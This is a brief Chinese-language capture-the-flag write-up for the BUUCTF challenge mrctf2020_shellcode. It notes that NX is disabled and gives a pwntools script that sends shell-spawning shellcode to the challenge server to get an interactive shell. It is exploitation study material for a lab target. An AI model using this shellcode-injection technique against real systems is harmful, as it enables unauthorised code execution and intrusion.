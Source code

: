 ### Shellcode 注入

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b4262dd0e0a243d4006f2e.png)

先 checksec

![](https://pic1.imgdb.cn/item/67b426a2d0e0a243d4006f43.png)

无法反编译为伪代码，分析汇编

![](https://pic1.imgdb.cn/item/67b4265dd0e0a243d4006f33.png)

因为没开 NX ，所以可以直接注入 shellcode 执行任意代码

```python
from pwn import *

p = remote("node5.buuoj.cn",25019)
context(arch = 'amd64', os = 'linux', log_level = 'debug')
elf = ELF('./mrctf2020_shellcode')

shellcode = asm(shellcraft.sh())

p.sendline(shellcode)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b42715d0e0a243d4006f5d.png)